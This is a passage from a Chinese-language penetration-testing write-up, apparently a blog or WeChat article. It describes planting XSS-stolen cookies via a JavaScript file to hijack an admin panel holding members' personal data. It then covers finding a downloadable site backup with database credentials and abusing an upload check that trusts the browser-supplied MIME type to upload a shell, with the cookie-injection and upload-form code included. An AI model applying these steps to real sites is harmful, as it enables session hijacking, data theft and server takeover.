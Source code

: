 ![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3Rjte5Kf3r0LpDFrwJicT2dEhwPWJ98ibhm0naNXpNzQKPYsD3prH5gtdA/640?wx_fmt=png&from=appmsg "")  
成功有鱼上钩，我们拿Cookie试一下这个时候我别忘了还有一个index.js也是在cdn1的子域下面，所以我们再新建一个index.js执行Cookie写入操作，为了避免影响其他用户，我们特地通过一个url参数来控制执行  
```
// 获取当前页面的 URL
var currentUrl = window.location.href;

// 解析 URL 查询字符串中的参数
var urlParams = new URLSearchParams(currentUrl.split('?')[1]);

// 检查是否存在名为 "us" 的参数，并且它的值是否为 "1"
if (urlParams.has('us') && urlParams.get('us') === '1') {
  // 设置名为 "usCookie" 的 Cookie，值为 "1"
  document.cookie = "这里是我们获取到的Cookie";
}


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3Rv4VEwPMB6wgKMYyrBPprnrD0IYGIXRp7azz0ibQbMlRXgHTcLdezFWQ/640?wx_fmt=png&from=appmsg "")  
我们刷新页面，发现自动重定向到后台了，里面有很多会员的身份信息，均为敏感信息。我们做到这里不得不吐槽一句这个单位的数据安全防护太不尽人意了，先后两个系统数据都被泄露。![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3RdwdbkIHqmNcPha6SzvwsPibAVMZtFgiby1p6ezRFREDgRUQ6iaxI0wGAw/640?wx_fmt=png&from=appmsg "")  
这个系统没有文件上传操作功能，但是我通过XSS实现了RCE，如何做的？接下来你就知道了，  
## 0x04 生成控件：修改页面实现RCE  
  
首先，我们例行再次进行扫描。有些目录在非登录状态下是不可见的，会被重定向，现在我们已经登录了，就可以带着Cookie去扫，看看有没有目录遍历或者备份文件下载。  
  
在网站的Back目录中，我们发现/Back/back2022.zip是可以下载的，应该是网站备份文件，所以下载下来进行代码审计  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3REZLGNNOTPK0icZgTvX0IFGnoKOcaHKLeAarkiboPdlYAibMaNOhibIZUgA/640?wx_fmt=png&from=appmsg "")  
我们把文件解压后，发现真的是一个很简单的数据管理系统，可以说是裸奔在互联网了。我们直接来到untils目录下面，这个目录一般就是放一些配置文件之类的![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3RV1IjDVTEENgO4gYbicicB1FNg5ic1z9QLiaxfBqlkiahZeoFdOtF6Zqhk3A/640?wx_fmt=png&from=appmsg "")  
先打开connect_db.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3R0iao96AGHxh5WDkfnzJXyAD7NFcCcJCJicWL14BLL54pwX0hQAODWic5Q/640?wx_fmt=png&from=appmsg "")  
简单、直接、明了地告诉了我们数据库密码，够爽快！但是数据库只允许127.0.0.1本地连接，我试了发现无法直接连接数据库，放弃sql提权的思路，看看有没有其他更简单的方式  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3R8BU04sGuOFPJH97iazdsCrfzpyhz45L0dPrcR1rNHnwn7eA6M0GSzdA/640?wx_fmt=png&from=appmsg "")  
在admin目录下有个文件上传功能，是用来上传用户头像，但是好像这个功能没有继续开发导致荒废，不过代码没有删除（或者这个功能正在开发中，只开发到了一半，没有写前端）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7E4CIgOu2zbds1k7yloD3R8Q3fSIkBmBGuPyjh6xArK0Fgq3AQurXRnm2ra8piaiaYYWOUmTaSHRPA/640?wx_fmt=png&from=appmsg "")  
文件类型检查是基于$_FILES['pic']['type']字段进行的，该字段由执行文件上传的浏览器确定。这就意味着，我们可以篡改或欺骗$_FILES['pic']['type']的值，来实现shell文件上传，那让我们来补全这个功能的前端操作页面,类似下面这样：  
```

<html>
<head>
    <meta charset="UTF-8">
    <title>文件上传</title>
    <!-- 引入/js目录下的全部文件-->
</head>
<body>
    <h1>文件上传</h1>
    <form action="upload.php" method="post" enctype="multipart/form-data">
        <label for="pic">选择要上传的图像：</label>
        <input type="file" name="pic" id="pic" accept="image/jpeg, image/png, image/gif" required>
        <br><br>
        <input type="submit" value="上传图像">
    </form>
</body>
</html>
```